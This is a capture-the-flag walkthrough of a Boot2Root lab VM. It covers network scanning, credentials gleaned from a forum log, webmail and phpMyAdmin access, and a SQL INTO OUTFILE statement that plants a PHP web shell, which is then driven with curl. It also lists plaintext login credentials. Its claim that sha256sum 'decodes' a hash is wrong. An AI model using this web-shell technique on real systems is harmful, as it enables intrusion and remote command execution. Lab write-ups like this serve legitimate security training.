# Find our IP

At first we should find our Ip address. Run `ip a` or `ifconfig` command in your shell
interpreter for this.  
Priority use `ip a` because this command show all IPs with its subnetwork address.



# Scan our subnetwork

Our IP is `192.168.1.74/24`. Then we scan our subnetwork, using `nmap <IP>`.  
Is recommended tune your Boot2Root VM with bridge network connection.



Required IP will be marked by "Boot2Root Hack Me" string or will have only list
opened services such as:  
***ftp, ssh, http, imap, https, imaps***, - with its port.

So we see is opened *http* and *https* services we can scan its.

# Dirb

We want to find another web-resources hosted on this web-server.  
Use `dirb https://192.168.1.86 -r`



Was found 3 web-sites:  
- https://192.168.1.86/forum
- https://192.168.1.86/webmail
- https://192.168.1.86/phpmyadmin

# Forum

Let's go to the forum. We see 4 posts there and one of it have name "Probleme login ?".  
We find log from ssh connection, opening this post.

Extract information with:

    curl --insecure "https://192.168.1.86/forum/index.php?id=6" | grep 'invalid user'



We see string like a password typed instead of username:



Try to connect via ssh `ssh lmezard@<192.168.1.86`



Permission denied. Ok, try login on forum with same credentials. Well done!)  
Check lmezard's user profile.



Copy his e-mail and go to webmail web-site.

# Mail

Try login with copied e-mail and password from forum.  
We was been accepted. There is 2 e-mails, opening both we can find credentials for connection to a DB.



# Php My Admin

Login there with login and password from previous step.  
It is main idea that we want to scan home directory in host machine. And we want create file with php script what can execute shell command.  
So login was done with root credentials, we can create this file, using SQL-injection.

But, at first, we should assign where we can do it. Use `dirsearch.py` script (it install from external github) for scan 3 given web-site.

    ./dirsearch.py -u <URL>




Under LAMP, files from the website are usually stored under /var/www/ or /var/www/custom_routes (which is probably the case here, like /var/www/forum). Simply using the command won't work, we need to find a folder on which we have rights to store the script.  
SQL-injection:

    SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/forum/templates_c/exec_shell.php'

We receive access reply only from `forum/templates_c` folder. Very well, now we can execute `ls -la` on the server.

    curl --insecure "https://<IP>/forum/templates_c/exec_shell.php?cmd=cd%20/home;%20ls%20-la"



Use the same way scan "LOOKATME" folder:



Open password file



FTP service has been being started and by way of connection to it we can try to load some files from host.  
Let's try to connect via FTP.

# FTP (FIleZilla)

We find one archive "fun" and file "README" after connection via ftp. Load this files to our local machine.  
Extracted this archive we see 751 files there, each from its contain part of C program. Try to restore it with our script `restore.py`.

Compile got program and execute it.



We get password from ssh connection, what is hashed by SHA256. Decode it, using next command:

    echo -n <PASSWD> | sha256sum



Now let's try to connect via ssh with credentials:

    login: laurie
    password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

Why login is laurie? Because lmezard's e-mail has laurie before '@'.